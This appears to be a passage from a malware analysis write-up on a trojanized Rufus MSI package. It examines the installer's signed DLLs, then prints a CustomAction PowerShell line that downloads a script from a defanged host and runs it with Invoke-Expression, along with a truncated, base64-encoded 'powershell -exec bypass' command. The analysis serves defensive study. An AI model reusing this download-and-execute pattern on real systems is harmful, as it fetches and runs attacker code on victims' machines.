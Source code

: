The `Binary.aicustact.dll` and `Binary.PowerShellScriptLauncher.dll` files are commonly seen with Advanced Installer MSI packages, and they even carry the proper Advanced Installer signature.

```console
remnux@remnux:~/cases/rufus$ pedump --security Binary/Binary.aicustact.dll

=== SECURITY ===

...

Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            79:7d:59:66:04:91:55:be:bf:38:3f:fb:0b:e3:29:10
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=US, O=thawte, Inc., CN=thawte SHA256 Code Signing CA
        Validity
            Not Before: Mar  6 00:00:00 2020 GMT
            Not After : Mar  5 23:59:59 2023 GMT
        Subject: C=RO, ST=Dolj, L=Craiova, O=Caphyon SRL, OU=SECURE APPLICATION DEVELOPMENT, CN=Caphyon SRL
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
...
```

Since `Binary.PowerShellScriptLauncher.dll` is in here, there's a decent chance that our MSI CustomAction table has some PowerShell code within. Let's go take a look!

## MSI CustomAction and PowerShell

Looking into the dumped CustomAction table, we can see some potentially malicious code.

```powershell
...

sleep -Milliseconds 241
[\[]Net.ServicePointManager[\]]::SecurityProtocol = [\[]Net.SecurityProtocolType[\]]::Tls12
(new-object Net.WebClient).DownloadString("hxxps://aimp[.]software/rufus.gpg") | iex

...

```
{: file='CustomAction.idt'}

This chunk of code downloads additional PowerShell code and executes it using PowerShell's Invoke-Expression cmdlet. The additional code is obfuscated and fairly long. I've cut down the base64 a lot here because we'll go over the decoded version in pieces as we go. For the decoded script, I'll refer to that filename as `rufus.decoded.ps1`.

```powershell
powershell.exe -exec bypass -enc DQAKAHMAbABlAGUAcAAgAC0ATQBpAGwAbABpAHMAZQBjAG8AbgBkAHMAIAAxADIAMwA1AA0ACgAkAEUAcgByAG8AcgBBAGMAdABpAG8AbgBQAHIAZQBmAGUAcgBlAG4AYwBl ... AKQAgAC0AVQBzAGUAQgBhAHMAaQBjAFAAYQByAHMAaQBuAGcADQAKAEMAbABlAGEAcgAtAEgAaQBzAHQAbwByAHkAIAANAAoADQAKAA==
```
{: file='rufus.gpg'}

